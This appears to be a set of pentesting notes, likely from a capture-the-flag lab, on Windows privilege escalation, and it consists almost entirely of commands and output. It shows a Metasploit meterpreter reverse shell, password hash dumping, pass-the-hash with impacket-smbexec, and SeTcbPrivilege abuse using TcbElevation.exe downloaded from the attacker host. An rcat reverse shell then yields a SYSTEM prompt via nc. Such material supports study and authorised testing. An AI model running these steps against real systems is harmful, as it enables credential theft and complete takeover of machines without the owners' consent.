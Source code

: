 ```bash
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
msf6 exploit(multi/handler) > set lport 443
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on <attacker_ip>:<port>
[*] Sending stage (200774 bytes) to <target_ip>
[*] Meterpreter session 1 opened [SNIP]
```
```bash
meterpreter > hashdump
```
```bash
meterpreter > portfwd add -L 127.0.0.1 -l 445 -p 445 -r <target_ip>
```
```bash
impacket-smbexec administrator@127.0.0.1 -hashes :<hash>
```
## SeTcbPrivilege
```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
...
SeTcbPrivilege                Act as part of the operating system Enabled
...
```
-> https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178
```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> iwr http://<tun0>/TcbElevation.exe -outfile TcbElevation.exe
```
-> https://github.com/xct/rcat
```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> upload rcat_10.8.0.210_443.exe
```
```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> .\TcbElevation.exe pwn "C:\Windows\system32\cmd.exe /c C:\Users\svc_deploy\Documents\rcat_10.8.0.210_443.exe"
Error starting service 1053
```
```bash
➜  rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.8.0.210] from (UNKNOWN) [10.10.153.117] 53924
Microsoft Windows [Version 10.0.20348.2113]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
# Groups
## Server Operators Group
Its members can sign-in to a server, start and stop services, access domain controllers, perform maintenance tasks (such as backup and restore), and they have the ability to change binaries that are installed on the domain controllers.
```powershell
*Evil-WinRM* PS C:\temp> net user svc-printer
```